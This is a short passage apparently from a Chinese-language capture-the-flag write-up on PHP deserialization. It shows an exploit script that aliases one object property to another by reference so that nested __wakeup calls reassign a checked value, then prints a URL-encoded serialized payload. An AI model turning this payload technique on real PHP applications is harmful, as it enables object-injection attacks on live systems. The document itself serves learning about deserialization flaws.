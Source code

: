 我们需要去改变c类中c1的值

exp

```
<?php
error_reporting(0);

class b
{
  public $b1;
  public $b2;
  public function __construct($b1,$b2)
  {
    $this->b1 = $b1;
    $this->b2 = $b2;
  }
}

class c
{
  public $c1;
  public $c2;
  public function __construct($c1,$c2)
  {
    $this->c1 = $c1;
    $this->c2 = $c2;
  }

}

class e{
    public $e1;
    public $e2;
    public function __construct($e1,$e2)
    {
        $this->e1 = $e1;
        $this->e2 = $e2;
    }
}

$c = new c('','');
$e =  new e("hhh","DawnT0wn");
$c->c1 = &$e->e1;
// $c->c2 = new b(new e("hhh","DawnT0wn"),"b2");
$b = new b($e,$c);
echo urlencode(serialize($b));
```

先让他执行内层的wakeup，再执行外层的wakeup对其重新进行复制

解密看到反序列化内容

![image-20221202134941985](images/11.png)
